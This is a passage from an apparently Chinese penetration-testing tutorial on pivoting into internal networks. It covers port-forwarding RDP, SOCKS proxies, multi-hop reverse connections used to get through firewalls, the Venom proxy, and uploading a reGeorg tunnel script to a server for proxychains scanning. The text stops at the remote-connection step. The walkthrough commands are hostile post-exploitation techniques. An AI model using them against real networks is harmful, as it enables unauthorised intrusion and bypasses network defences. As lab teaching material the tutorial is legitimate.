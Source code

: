 ```
#端口转发。将目标3389转发到本地1189，然后mstsc连接127.0.0.1:1189。注意多级转发会造成流量拥堵，流量可能出不来
lcxtran 1189 192.168.1.10 3389
#socket代理
#配合proxychains驱动本地软件对内网进行扫描，由本地1080将流量转发到内网
socks 1080
```

### **3.3 反向连接**

`#win7保持监听``agent_Win32.exe -l 7777``#xp反向连接到win7``agent_Win32.exe -c 169.254.75.233 -p 7777``#win8保持监听``agent_Win32.exe -l 6666``#win7反向连接08``agent_Win32.exe -c 192.168.106.128 -p 6666``#此时xp、win7都已经主动上交了权限，物理机控制08就可以直接建立隧道``admin_Win32.exe -c 192.168.1.10 -p 6666``#反向连接用户穿透防火墙`

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0Lnucibib3SRBBSuKvxDqTmNUxYnDwjZeXiaeHXyu0QQRSAxYrsp52TLnA/640?wx_fmt=png)

**4.venom 工具**  

-----------------

使用 Go 开发的多级代理工具。Venom 可将多个节点进行连接，然后以节点为跳板，构建多级代理。可以使用 Venom 轻松地将网络流量代理到多层内网，并轻松地管理代理节点。venom 工具使用方法传送门：[使用 Venom 多级代理工具穿透内网](http://mp.weixin.qq.com/s?__biz=MjM5NDUxMTI2NA==&mid=2247484080&idx=1&sn=dfa1fb4c8de49768d687c873b162bde8&chksm=a687e27f91f06b699609cf8c9a52999977cc82a2f4986a034948a1b4fe710f237df3ba32e433&scene=21#wechat_redirect)

**5.reGeorg+Proxychains**

项目地址：https://github.com/sensepost/reGeorg

### **5.1 上传脚本**

上传脚本文件到服务器，访问地址出现 “Georg says, ‘All seems fine’” 表示脚本正常运行。本地测试 php 脚本不能正常运行  

![](https://mmbiz.qpic.cn/mmbiz_jpg/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0ywGVm9LGibKswK3bibwSdMibHWWTTTZUlfauz9ZxxOvl3SBwvr2ibx8B0g/640?wx_fmt=jpeg)

### **5.2 进行转发**

```
python2 reGeorgSocksProxy.py -p 12345 -u http://192.168.1.10:8001/tunnel.aspx
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0CDPibDMxFT0GIouvp6jVmcAZYfia7jECMfQzaCicQr3OfVVrr8kJbKiaSA/640?wx_fmt=png)  

确认端口开启：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0ePYl9zvdAvNxSqm9NHf4378nEra4YsZ7QOxumibPpwXjibxJRibXTEXdg/640?wx_fmt=png)

### **5.3 修改 socket 代理端口**

```
vi /etc/proxychains.conf
#修改代理端口为12345
```

### **5.4 远程连接**
